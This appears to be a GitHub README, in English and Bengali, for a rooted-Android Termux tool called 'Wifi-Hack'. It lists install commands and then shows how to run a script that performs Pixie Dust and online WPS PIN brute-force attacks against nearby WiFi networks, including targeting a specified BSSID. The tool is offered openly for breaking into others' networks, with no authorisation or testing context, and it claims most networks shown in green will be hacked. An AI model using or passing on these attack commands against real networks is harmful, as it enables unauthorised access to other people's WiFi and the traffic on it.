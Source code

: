 ## Wifi-Hack 🗿
### Hack WIfi Using Termux! (Need Rooted Device )🧑‍💻
### termux দিয়ে wifi হ্যা.ক করুন 

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install (কিভাবে ইন্সটল করবেন) :

```bash
apt update && apt upgrade -y
```
```bash
pkg update && pkg upgrade -y
```
```
pkg install git -y
```
```
pkg install python -y
```
```bash
pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```bash
git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```bash
cd Wifi-Hack
```
```bash
chmod +x fück-wifi.py
```
### Note📝 : Now turn off Wifi (এখন wifi অফ করুন)
```bash
sudo python fück-wifi.py -i wlan0 -K
```
## Note📝: It will show all Wifi within your range. Among them, 99% of Green's will be hacked. And the White ones may also be tried. And the Red ones will not be hacked. (আপনার Range এর ভেতর এর সব Wifi Show করবে। এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা)

## Enter this command to open Tool next time. (পরের বার Tool অপেন করতে এই command টি দিন।)
```bash
sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note 📝: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
## Thanks For Using My Tool ❤️
